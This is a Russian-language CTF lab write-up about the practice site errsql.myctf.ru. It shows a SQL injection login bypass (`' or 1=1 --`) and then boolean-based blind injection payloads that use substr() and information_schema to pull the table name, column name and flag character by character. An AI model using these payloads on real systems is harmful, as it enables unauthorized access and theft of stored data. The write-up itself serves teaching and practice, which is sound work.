


# Практика 4 часть 3

Открываем веб-сайт. errsql.myctf.ru

На этот раз фаззинг директорий нам ничего не принес. Пароль, полученный из исходников нам тоже не помог. Поэтому, попробуем выполнить sql инъекцию.

Попробуем инъекцию проверки пароля, введем в качестве логина — `admin`, а в качестве пароля `123' or 1=1 -- 123`. Данная атака позволяет выполнить свести логическую проверку пароля к проверке равенства `1=1`, которое всегда `True`, а следовательно выполнится. После чего остаток логики автора комментируется с помощью двойного тире. Выполнив атаку мы попадаем на страницу:



Видим что мы обошли авторизацию, но флаг не тут. Понимаем, что при истинном значении (`1=1`) мы обходим авторизацию, при ложном (`1=0`) нет. Используя эти знания пробуем достать данные из базы посимвольно.



Сначала имя таблицы:

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='l' -- -&password=somenewpass
```

(Получили таблицу flag)

Потом имя столбца:

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='l' -- -&password=somenewpass
```

(получили столбец flag)

И в конце достаем флаг:

```sql
login=admin' and substr((select flag from flag),1,1)='F' -- -&password=somenewpass
```

```sql
login=admin' and substr((select flag from flag),2,1)='l' -- -&password=somenewpass
```

Уязвимость в данном задании заключается в том, что мы можем делать любые запросы к базе данных, однако у нас нет возможности отобразить информацию на экране, поэтому мы используем некоторую логическую операцию: так например, если мы осуществляем успешный логин, с помощью конструкции `1=1`, а при `0=1` – логина нет, то нам ничего не мешает осуществить ту же самую операцию, сравнивая, например буквы — `f=f`, а раз мы можем сравнивать буквы, то можно попробовать сформировать одну из частей выражения запросом, а другую — подставлять руками. Таким образом, если, например, `1 буква имени таблицы = f`, то подставив в правую часть выражения `f`, мы успешно залогинимся. Если же мы не угадали, то можем перебирать правую часть выражения до тех пор, пока равенство не выполнится и не произойдет успешный логин. Вручную, конечно, это делать крайне трудозатратно, поэтому обычно такие процессы автоматизируют. Данная уязвимость, в зависимости от ограничений и прав пользователя из под которого происходит запрос, позволяет извлечь/записать любые данные из базы.